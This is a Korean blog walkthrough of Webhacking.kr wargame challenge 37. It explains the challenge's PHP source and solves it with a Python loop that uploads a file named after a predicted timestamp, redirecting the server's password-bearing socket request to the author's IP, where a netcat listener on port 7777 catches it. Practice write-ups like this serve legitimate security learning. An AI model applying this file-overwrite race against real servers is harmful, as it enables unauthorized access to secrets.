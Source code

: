```yaml
---
layout: post
title: "Webhacking.kr 37번 문제"
description: ""
categories : ""
sub_categories : ""
date: 2017-07-14
tags: []
comments: true
share: true
---
```


![](/assets/images/posts/779/2775FB33596868D2391301.PNG)

  

37번은 250 스코어의 문제입니다.

  

문제를 보면, 알수 없는 파일 리스트와 7777 포트가 열려있는데 루프백 아이피 그리고 폼 버튼이 보입니다.

  

하단에 위치한 폼 버튼의 임의로 이미지 사진(20170213_230929.png)을 업로드 했습니다.

업로드 이 후, 이미지가 정상적으로 리스트에 나오는 것을 확인했습니다.

  

    ....numbertmp-1499973060tmp-1499996289tmp-1499996421tmp-1499996897tmp-1499996923127.0.0.1:7777

  

현재까지의 시점을 보았을 때, 이로는 정답의 실마리를 찾지 못하여

소스코드를 열어보니 `index.phps` 가 숨어있었습니다.

  

문제의 힌트를 위해 해당 파일의 경로로 이동합니다.

  

이동했다면 아래와 같이 문제를 구성하는 코드가 보일 것 입니다.

코드의 대해서 잠깐 얘기해보겠습니다.

  

로컬 시간을 `time` 변수에 대입하고 "tmp" 디렉토리에 "tmp-".$time 이라는 파일의 루프백 아이피를 넣어 생성합니다.

"tmp/.number" 파일은 파일의 갯수를 측정하는 파일로써 find 함수로 한줄 씩 읽으며 배열로 반환하고

그 수를 증가시킨 값을 다시 본 파일의 적습니다.

  

tmp 파일이 30개를 이상이면 unlink 하는 부분 또한 있는데 별로 중요한 내용은 아니니 설명하지 않겠습니다.

  

중요한 부분은 다음에 나오는 파일명 중 특정 문자열을 공백으로 치환하는 부분입니다.

치환의 대상자는 아래와 같다.

  

  * <
  * >
  * ,
  * .
  * space 

  

tmp 디렉토리 이하에서 업로드 된 파일명을 쓰기 모드로 열고 클라이언트의 공인 ip를 작성합니다.

  

이후 소켓 함수를 이용하여 ck 변수에 저장된 ip 값의 7777 포트로 연결합니다.

연결 뒤에는 request 변수에 저당된 값을 발신합니다.

  

이 것이 내가 수신 받아야할 정답 값인 것 입니다.

  

문제에서 요청 시 7777포트로 요청 아이피에 정답을 발신합니다.

정답을 수신하기 위해 nc를 사용하여 7777 포트를 열어줍니다.

  

    nc - nvl -p 7777

  

이 후 공유기 사용자의 경우 포트 포워드 설정해주시면됩니다.

  

  

매 요청 시 "tmp-{구분자 = 시간}" 값이 동적으로 변하기에 이를 저는 loop 를 사용하여 해결했습니다.

소스는 아래와 같습니다.

  

  

    import requestsurl = 'http://webhacking.kr/challenge/web/web-18/index.php'files = {	'upfile' : ('tmp-1500000845',open('tmp-1500000845','rb'),'multipart/form-data')}cookies = {	'PHPSESSID': '세션 키 값'}for i in xrange(60):	response=requests.post(url, files = files, cookies = cookies)	print response.text

  

    $pw="???";$time=time();$f=fopen("tmp/tmp-$time","w");fwrite($f,"127.0.0.1");fclose($f);$fck=@file("tmp/.number");if($fck) $fck=$fck[0];if(!$fck) $fck=0;$fck++;$f2=fopen("tmp/.number","w");fwrite($f2,$fck);fclose($f2);$file_nm=$HTTP_POST_FILES[upfile][name];$file_nm=str_replace("","",$file_nm);$file_nm=str_replace(".","",$file_nm);$file_nm=str_replace(" ","",$file_nm);if($file_nm){$f=@fopen("tmp/$file_nm","w");@fwrite($f,$_SERVER[REMOTE_ADDR]);@fclose($f);}echo("");$kk=scandir("tmp");for($i=0;$i");$ck=file("tmp/tmp-$time");$ck=$ck[0];$request="GET /$pw HTTP/1.0\r\n";$request.="Host: $ck\r\n";$request.="\r\n";$socket=@fsockopen($ck,7777,$errstr,$errno,1);@fputs($socket,$request);@fclose($socket);echo("$ck:7777");if($fck>=30){$kk=scandir("tmp");for($i=0;$i<=count($kk);$i++){@unlink("tmp/$kk[$i]");}}

  
  
클리어 !

  

